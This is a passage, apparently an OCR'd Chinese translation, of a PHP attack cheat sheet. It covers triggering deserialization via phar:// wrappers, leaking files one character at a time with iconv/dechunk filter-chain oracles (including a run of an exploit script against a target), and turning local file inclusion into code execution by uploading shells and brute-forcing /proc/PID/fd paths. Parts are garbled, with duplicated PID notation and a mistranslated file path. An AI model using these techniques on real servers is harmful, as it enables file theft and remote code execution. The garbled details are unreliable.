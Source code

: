 如果现在对我们的现有Phar文件执行文件操作（通过phar://包装器），则其序列化的元数据将被反序列化。如果此应用程序有一个名为AnyClass的类，并且它定义了魔术方法__destruct()或__wakeup()，那么这些方法将自动调用

```php
class AnyClass {
    function __destruct() {
        echo $this->data;
    }
}
// 输出：rips
include('phar://test.phar');
```

注意：对于phar://包装器，在任何文件操作中都会触发反序列化，`file_exists`和许多其他操作。

### 包装器 convert.iconv:// 和 dechunk://

- `convert.iconv://`：将输入转换为另一个文件夹（`convert.iconv.utf-16le.utf-8`）
- `dechunk://`：如果字符串不包含换行符，只有当字符串以A-Fa-f0-9开头时，才会清除整个字符串

这种利用的目的是基于DownUnderCTF的writeup，一次泄露文件的内容，一个字符一个字符地。

**要求**：

- 后端不得使用`file_exists`或`is_file`。

- 易受攻击的参数应该在

  ```
  POST
  ```

  请求中。

  - 由于大小限制，您无法在GET请求中泄露超过135个字符

利用链基于PHP过滤器：`iconv`和`dechunk`：

1. 使用`iconv`过滤器和一个使数据大小呈指数级增长的编码来触发内存错误。
2. 使用`dechunk`过滤器根据之前的错误确定文件的第一个字符。
3. 再次使用具有不同字节顺序的编码的`iconv`过滤器，将剩余字符与第一个字符交换。

使用synacktiv/php_filter_chains_oracle_exploit，脚本将使用`HTTP状态代码：500`或时间作为基于错误的oracle来确定字符。

```ps1
$ python3 filters_chain_oracle_exploit.py --target http://127.0.0.1 --file '/test' --parameter 0   
[*] 以下URL被定位：http://127.0.0.1
[*] 以下本地文件被泄露：/test
[*] 运行POST请求
[+] 文件/测试泄露完成！
```



## 通过/proc/*/fd从本地文件包含（LFI）到远程代码执行（RCE）

1. 上传大量shell（例如：100个）
2. 包含http://example.com/index.php?page=/proc/𝑃𝐼𝐷/𝑓𝑑/*P**I**D*/*fd*/FD，其中𝑃𝐼𝐷为进程𝐼𝐷（可以暴力破解），*P**I**D*为进程*I**D*（可以暴力破解），FD为文件描述符（也可以暴力破解）
